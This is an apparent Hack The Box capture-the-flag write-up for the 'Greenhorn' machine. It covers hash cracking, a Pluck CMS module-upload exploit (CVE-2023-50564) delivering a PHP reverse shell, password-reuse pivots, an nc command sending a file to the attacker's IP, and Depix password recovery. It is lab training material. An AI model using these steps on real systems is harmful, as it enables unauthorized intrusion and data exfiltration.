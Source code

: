 ```yaml
---
layout: post
title:  "HTB: Greenhorn Writeup"
date:   2024-05-01 13:08:01 -0400
categories: CTF
---
```



This is a fun box. Usage starts with some thorough enumeration revaling a password hash. We find that password is reused on the admin portal, which opens up a file upload vulnerability (CVE), which gets us a reverse shell as www. Password reuse also works for a pivot here, so we switch to a new user before using a pretty cool python tool to deblur a shared password image. 


## Enumeration

As usual for an easy box, I set up a basic scan of the IP

{% highlight bash %}
nmap -sC -sV 10.10.11.25
nmap -p- 10.10.11.25
{% endhighlight%}

Which shows 
![image](https://github.com/user-attachments/assets/a847444f-815b-49b8-baa7-e9f147801bf7)

So I add greenhorn to /etc/hosts

{% highlight bash %}
echo '10.10.11.25 greenhorn.htb' | sudo tee -a /etc/hosts
{% endhighlight%}

The webpage has a couple welcome landing pages, with nothing interesting. 
![image](https://github.com/user-attachments/assets/609beccb-e957-4f54-97ab-03e489399c8d)
![image](https://github.com/user-attachments/assets/bdc78233-f144-48ff-8a3b-6ef74ff0939a)

But we do get the admin page pretty quick: 
![image](https://github.com/user-attachments/assets/0fb0f572-1804-44db-bba0-e0b146ad6a74)

Which shows version 4.7.18 for [pluck] (https://github.com/pluck-cms/pluck).
Looking for version-specific vulnerabilities turns up an RCE vulnerability for CVE-2023-50564. Too bad, it appears to need admin web access, which we don't have yet. 
![image](https://github.com/user-attachments/assets/273c0fb5-ab2d-4e19-b246-1acc53dd3551)

There don't appear to be default credentials, so I go check out the other open port. http://greenhorn.htb:3000
Which takes us to a gittea instance. 

Clicking in, we see a repository with pluck information. Ok, I'll bite. 
In login.php we find this bit, showing us how logins happen: 
![image](https://github.com/user-attachments/assets/77e14ae0-666f-4746-a363-43722779e480)

And in /data/settings/pass.php, we find this, which appears to be the same variable storing a hash: 
![image](https://github.com/user-attachments/assets/add85f06-2be1-4aa3-8c8f-f2d90ea554bd)

We don't even have to fire up hashcat, https://crackstation.net/ works right away. 
![image](https://github.com/user-attachments/assets/6d4b86f2-74e5-47a4-beb1-fe5b67225f3e)

And it's actually that easy. We don't even have to find a username. 
![image](https://github.com/user-attachments/assets/2f3fbcb9-288f-4d00-bd6c-7b9be0b3d9ea)

Now we can circle back to the vulnerability. I found this site most helpful. https://www.nu11secur1ty.com/2023/07/pluck-4718-fi-rce.html
A POC exists, but it's not a terribly complex vuln, so I opted to exploit it on my own. 
Quick trip to revshells, I opted for the PHP PentestMonkey shell. 

For the exploit, we have to navigate to options > manage modules > install a module
And uploading the .php file won't work, we have to convert it to a zip first. 

{% highlight bash %}
zip rev.zip rev.php
{% endhighlight%}

![image](https://github.com/user-attachments/assets/932b0556-b87d-4c71-88e0-9443deec149e)

Foothold secured!
![image](https://github.com/user-attachments/assets/878df8b4-86ea-48b9-9b40-e76a59f64ff2)

I spend some time looking around the webpage directories, but dont find much. Eventually I retry the password we found earlier. 

{% highlight bash %}
su - junior
{% endhighlight%}

Which is enough to get the user flag. 

![image](https://github.com/user-attachments/assets/25d0b311-9487-4717-a875-bac8858a209a)

I can also see an interesting pdf file, so I port it over to my machine. 
{% highlight bash %}
nc -lvp 8002 > OpenVAS.pdf
{% endhighlight%}

{% highlight bash %}
nc 10.10.14.67 8002 < ./'Using OpenVAS.pdf'
{% endhighlight%}

Which appears to be the Admin bragging to junior about their openvas privileges. 
![image](https://github.com/user-attachments/assets/39beb97e-cd4c-4a22-bf2e-f44fb8a74203)

After stumbling around for a while, I got pointed towards this repository: 
https://github.com/spipm/Depix
![image](https://github.com/user-attachments/assets/d0cf9353-ab2c-46f1-9733-47d098c8a23f)

Which looks pretty cool. It was little tempermental for me though. I couldn't screenshot from the pdf and use the pic, no matter how I zoomed or cropped. I eventually ended up using a webpage to pull the image directly. 
https://tools.pdf24.org/en/extract-images#s=1724698526623

{% highlight bash %}
python3 depix.py -p ../0.png ./images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png 
{% endhighlight%}

But it does work!

![image](https://github.com/user-attachments/assets/cae88432-d20f-4ce3-bdb0-cc62b2b3b5d0)

{% highlight bash %}
su - root 
{% endhighlight%}

![image](https://github.com/user-attachments/assets/4ab7cb1b-d952-46df-bfd0-986273f10010)


